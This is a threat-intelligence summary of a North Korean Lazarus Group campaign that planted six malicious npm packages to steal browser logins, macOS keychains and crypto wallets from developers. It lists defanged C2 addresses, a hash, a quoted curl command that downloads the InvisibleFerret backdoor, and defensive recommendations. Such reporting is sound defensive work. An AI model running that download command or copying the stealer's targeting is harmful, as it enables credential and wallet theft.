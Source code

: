 To appear legitimate, the APT group created and maintained **GitHub repositories for five of the six malicious packages**. This tactic aims to provide a veneer of open-source credibility, increasing the chances of the harmful code being integrated into developer workflows.

The malicious code embedded within these packages utilizes **obfuscation techniques** observed in previous Lazarus campaigns. These techniques include **self-invoking functions, dynamic function constructors, and array shifting** to conceal the true functionality of the malware.

The malware exhibits **cross-platform targeting**, designed to compromise **Windows, macOS, and Linux systems**. Upon execution, the code collects system environment details such as the hostname, operating system, and system directories. It then proceeds to **enumerate browser profiles** to locate and extract sensitive files, including **Login Data from Chrome, Brave, and Firefox**, as well as **keychain archives on macOS**. Furthermore, the malware targets **cryptocurrency wallets**, specifically extracting `id.json` from Solana and `exodus.wallet` from Exodus.

The collected data is then **exfiltrated to a hardcoded Command and Control (C2) server** located at `hxxp://172.86.84[.]38:1224/uploads`. This C2 mechanism and data theft tactics are consistent with Lazarus's prior supply chain compromises.

Beyond data theft, the malicious script also **downloads additional malicious components**, identified as the **InvisibleFerret backdoor**. This secondary payload (SHA256: `6a104f07ab6c5711b6bc8bf6ff956ab8cd597a388002a966e980c5ec9678b5b0`) is downloaded using both `curl` commands and the Node.js `request` module. The downloaded files are typically named `p.zi` or `p2.zip` and are extracted using the `tar -xf` command. This multi-stage deployment strategy, involving the BeaverTail malware and the InvisibleFerret backdoor, aligns with previously documented Lazarus operations.

The threat actors employ **persistence mechanisms** to ensure continued compromise, even if initial stages are detected and removed. The creation or repurposing of GitHub repositories further aids in obscuring their activities and making the operation appear as legitimate open-source development.

**Observed commands (from code snippets):**
*   `curl -Lo "${pFile}" "hxxp://172.86.84[.]38:1224/pdown"`
*   `tar -xf` (used for extracting downloaded zip files)

### Countries
While the source doesn't explicitly state targeted countries, the nature of npm package usage suggests a potentially global impact on developers using these malicious packages. The attribution points towards **North Korea** (Lazarus Group).

### Industries
The primary target of this campaign is the **software development industry**, specifically developers who utilize the **npm package manager** in their workflows. Any organization or individual incorporating these malicious packages into their projects could be affected.

### Recommendations
The report provides several recommendations for organizations to mitigate these types of threats:
*   Implement a **multi-layered approach to detection and defense**.
*   Utilize **automated dependency auditing and code reviews** to identify anomalies in third-party packages, especially those with low download counts or from unverified sources.
*   Conduct **continuous monitoring of unusual dependency changes** to detect malicious updates.
*   **Block outbound connections to known C2 endpoints** to prevent data exfiltration.
*   **Sandbox untrusted code** in controlled environments.
*   Deploy **endpoint protection** to detect suspicious file system or network activities.
*   **Educate development teams** on common typosquatting tactics to promote vigilance when installing new packages.
*   Employ tools like the **Socket GitHub app** for real-time scanning of pull requests to identify malicious dependencies before integration.
*   Integrate the **Socket CLI** into npm installation workflows to detect anomalies before they reach production.
*   Use the **Socket browser extension** to proactively warn users of potential threats upon download or viewing.
